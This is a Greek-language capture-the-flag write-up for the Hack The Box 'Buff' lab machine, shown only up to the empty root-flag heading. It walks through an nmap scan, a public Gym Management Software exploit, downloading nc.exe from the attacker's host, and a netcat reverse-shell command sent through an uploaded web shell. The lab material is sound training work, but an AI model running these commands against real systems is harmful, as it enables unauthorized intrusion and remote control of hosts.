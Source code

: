 ## [HTB] Hackthebox Buff machine writeup by dhmosfunk



![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/buff.png?raw=true)<br>

[1.User flag](https://github.com/p19tzam/hackthebox-mywriteups/blob/main/buff/README.md#1user-flag)

[2.Root flag](https://github.com/p19tzam/hackthebox-mywriteups/blob/main/buff/README.md#2root-flag)


 

#### 1.User flag
- [x] MACHINE IP: 10.10.10.198 <br> <br>
Πρώτα απ όλα ξεκινάμε με ένα nmap scan για να δούμε τι ports τρέχουν στην IP. <br>
```nmap -sV -sC -oA nmap/buff 10.10.10.198```
![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nmap%20scan.png?raw=true)

Όπως βλέπουμε στο scan μας τρέχει ενας webserver στο port 8080.
Ανοίγοντας το site στον browser και πηγαίνοντας στο contact.php θα βρούμε το software που τρέχει στον server(Που επίσης είναι outdated).

![outdatedsoftware](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/gymanagement.png?raw=true)

Με ενα google search βρίσκουμε το συγκεκριμένο exploit: [Gym Management Software 1.0 exploit](https://www.exploit-db.com/exploits/48506)

Το κάνουμε download και το τρέχουμε όπως δείχνω στην εικόνα

```python 48506.py http://10.10.10.198:8080/```
![exploit](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/shell.png?raw=true)

Και έχουμε shell!

Τώρα θέλουμε να κάνουμε ενα [reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/) που θα το κάνουμε με το netcat.

Πρώτα απο όλα πρέπει να βρούμε το netcat.exe και να το κάνουμε upload στο buff machine

![nc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc.png?raw=true)

Μόλις βρούμε το netcat.exe δημιουργούμε ενα simplehttpserver με την python για να το “τραβήξουμε” στο buff machine <br>
```python -m SimpleHTTPServer 9003 ```
![simplehttpserver](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/httpserver.png?raw=true)


Για να “τραβήξουμε” το nc.exe θα πρέπει να χρησιμοποιήσουμε το ‘wget’ όπως δείχνω παρακάτω <br>
```powershell wget http://10.10.14.41:9009/nc.exe```<br>
![uploadnc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/uploadnc.png)


Ωραία μέχρι εδω..
Τώρα reverse shell.. Δημιουργούμε ενα listener στο kali machine
```nc -lvvnp 9003```
![nclistener](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc%20listen.png?raw=true)

Μόλις βάλουμε τον listener θα πρέπει να πάμε στον browser να τρέξουμε το command:<br>
```10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe 10.10.14.41 9003 -e cmd.exe```
![browservs](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/browser%20reverse%20shell.png?raw=true)
<br>
<br>Και μετα βρίσκουμε το user.txt
![userflag](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflag.png?raw=true)

![userflag2](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflagtxt.png?raw=true)

Και πάμε για το root!








#### 2.Root flag
